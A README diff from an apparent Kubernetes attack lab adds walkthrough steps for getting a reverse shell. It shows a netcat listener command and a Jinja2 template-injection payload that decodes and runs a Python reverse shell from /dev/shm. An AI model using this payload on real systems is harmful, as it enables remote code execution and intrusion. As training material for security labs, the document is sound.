

Before and after one commit to kurtiepie/k8s_in_mem_lab, a Markdown page: README.md, the part around the change printed below. Rendered like a GitHub page; pictures changed too: images/Request.png (added); blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -97,9 +97,19 @@ We can interact with `/dev/shm` for our purposes to execute scripts with python
 We can see what version of python is available on the system with `python --version`
 
 ---
-We can get a reverse shell by writing the python3 shell in [tools](#item-seven) to /dev/shm
+We can get a reverse shell by base64 encoding writing the python3 shell in [tools](#item-seven) to /dev/shm
 
+Example in burp:
+![N|Solid](./images/Request.png)
 
+Start Listener `nc -l 45678` for example and execute shell:
+
+```sh
+a {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /dev/shm/rev.py | base64 -d | python3').read() }}
+```
+
+---
+The `env` command shows that we can see there is a service frontending Postgres. Hopefully there are no Network Policys and we can connect to it... but how
 ---
 <a id="item-three"></a>
 # Introduction to Fee: https://pypi.org/project/fee/
````
Also changed, not shown: other parts of README.md (+1 -1 lines).
